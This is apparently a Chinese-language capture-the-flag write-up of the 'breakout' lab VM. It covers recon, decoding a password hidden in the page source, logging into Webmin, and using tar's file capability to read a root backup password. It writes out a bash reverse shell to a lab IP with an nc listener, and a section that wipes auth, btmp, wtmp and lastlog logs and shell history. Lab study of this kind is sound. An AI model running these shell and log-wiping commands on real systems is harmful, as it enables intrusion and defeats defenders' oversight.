



# breakout靶场

## 前言

靶机：`breakout`

攻击：`kali`

续接上个靶场`empire1`的继续学习

## 主机发现

使用`arp-scan`扫描或者直接查看虚拟机的`ip`地址


## 信息收集

#### 使用nmap扫描


1. 端口80`apache 2.4.51`
2. 开启`smb`服务的两个端口139、445，版本4.6.2
3. 两个http服务采用`miniserv`(webmin)
4. 操作系统为linux 4.x或5.x

#### 访问查看

查看80端口网站信息，是搭建`apache`后的默认页面


查看页面源码，再最后面发现一串加密的字符。



进行分析解密


查看10000端口的网站信息，是个登录界面


查看20000端口网站信息，同样是登录


#### 扫描网站目录

80端口并无好东西，因为本身就是一个默认的界面


扫描10000端口


访问`robots.txt`发现只有一个根目录，没有价值


扫描20000端口


打开`robots.txt`文件同样没有东西


#### 检测smb服务

使用`enum4linux`工具来查看`smb`服务的一些信息

```shell
enum4linux -a -o 192.168.1.29
```




至此信息收集完毕，尝试进行攻击

小结获取到的信息

1. 获取到一段加密后的字符`.2uqPEfj3D<P'a-3`
2. 从smb获取一个本地用户`cyber`
3. 10000和20000端口是登录界面，并是`miniweb`

## 漏洞寻找

在10000端口和20000端口的网站尝试万能密码进行测试

输入`1' or 1=1`或`1' or '1'='1`，直接说用户名错误


基于前面收集到该端口的信息可以知道，是`miniserv`，搜索有无默认登录密码

搜索到`miniO browser`默认账户和密码都是`minioadmin`并且是管理员权限


进行测试，发现登录变了，不再是用户名错误，而是登录失败，说明有这个用户名


尝试进行爆破，多次尝试，大概7次左右吧，就被封锁IP，不过大概1分钟后会恢复登录页面


抓包分析，是根据什么进行封禁的IP地址

发现并无`x-forwarded-for`类似的http头，说明是通过连接时获取IP的，那么这里无法伪造IP，但是可以通过代理池的方式来绕过这个IP封禁进行爆破

不过因为是相当于内网环境，代理池基本上没用上，所以这里换方法


## 漏洞利用

之前获取到的一个用户名和一串加密后的字符，尝试登录`cyber` `.2uqPEfj3D<P'a-3`

登录成功


这里可以找到几处利用点，每个功能模块都点击测试一下，有一个文件管理工具，可以上传文件，一个ssh终端，在`web`页面就可以调用，并且直接连接，可以在文件管理中看到SSH认证的相关文件，在`.ssh`目录下

并且还有一个命令执行SHELL，不过可以直接连接，就可以暂时不需要


不过还有一个密码更改需要注意，万一有可绕过的业务漏洞呢。不过抓包后发现，是有一个`uid`，这个是网站自己生成的很长的字符串，不好进行操作


功能很多，但是都比不过可以直接使用ssh连接，因为就算是shell成功，也还是当前用户的权限


使用ssh连接终端，先查看一些权限问题


## 提权

当前文件下有两个文件，并且`tar`命令竟然在这，而且有执行权限


既然给出这个命令，说明要么有需要解压的包或压缩的包，反正应该是有信息的

使用`compgen -c`来查看`find`命令当前用户可用吗


使用`find`尝试搜索关键字`flag`、`pass*`、`user*`等

文件实在太多了，看花眼了，这里可以看到应该是隐藏备份文件，尝试能否访问


无法直接访问，那么在当前目录下有`tar`命令，把目标打包到这里，然后解压查看





获取到一个密码，不过并不知道是谁的，所以，可以先查看`/etc/passwd`有哪些用户


然后可以一个一个的试试


但是这里还没有输入密码就直接跳出权限错误，而且`su`是有`SUID`的，不清楚，不过既然已经进入，直接查看是否可用`bash`，可用的话，就反弹一个`shell`，这里不行的话，还可以使用`wget`进行下载，比如`python`的等等


当然也可以尝试从网站重新登录，以`root`的身份，因为在前面查看`/etc/passwd`的时候，发现`cyber`是在其中的，说明`root`也有可能是能够登录网站的


```
bash -i >& /dev/tcp/192.168.1.16/9999 0>&1	在靶机执行
nc -lvvp 9999	在kali执行
```


提权到root成功


## 清除痕迹

#### 删除auth

```
echo > auth.log
```


#### 删除btmp

```
echo > btmp
```


#### 删除wtmp

```
echo > wtmp
```


#### 删除lastlog

```
echo > lastlog
```


#### 删除命令的历史记录

```
history -r
```


暂时在`/var/log`目录下无其他日志文件


## 总结

1. 养成经常看页面源代码的习惯

2. 涉及到简单的密码破解，可以增长记忆，这里是`brain`

3. `enum4linux`的使用，可以清晰的看到SMB的好多内容

4. 结合收集到的所有信息进行尝试，这里只给出网站，并且可登录，就根据自己的信息去尝试

5. 对于登录到网站系统中的时候，对于网站的功能，都点击进行测试，比如有修改密码等操作时，就可以抓包分析

6. 妥善使用`compgen -c`来获取当前用户的可用命令，配合`grep`进行筛选

7. 记得一些敏感文件的常用关键字，如密码，可能文件名中就有`pass`

8. 命令`getcap`的使用，附在最后吧

9. 反弹`shell`的时候，反弹就是对方主动来连接你

   `bash -i >& /dev/tcp/ip/port 0>&1`


`getcap`是一个用于查看文件的能力（capabilities）的命令。在 Linux 系统中，文件能力是一种细粒度的权限机制，它允许对程序的权限进行更灵活的控制，而不是仅仅依赖传统的用户 / 组 / 其他（ugo）权限位。

- `cap_dac_read_search`是一种文件能力。具体来说，`cap_dac_read_search`能力允许一个进程绕过文件读取、目录读取和可执行文件搜索的常规文件权限检查。
- `=ep`是一种设置权限的方式。`e`表示启用（effective），`p`表示许可（permitted）。这意味着为`tar`程序设置了`cap_dac_read_search`能力，并且这个能力在程序执行时是有效的和被许可的。这样，`tar`程序在执行某些操作时（如读取文件和搜索目录）可以绕过传统的基于用户 / 组 / 其他的访问控制（DAC - Discretionary Access Control）权限检查。


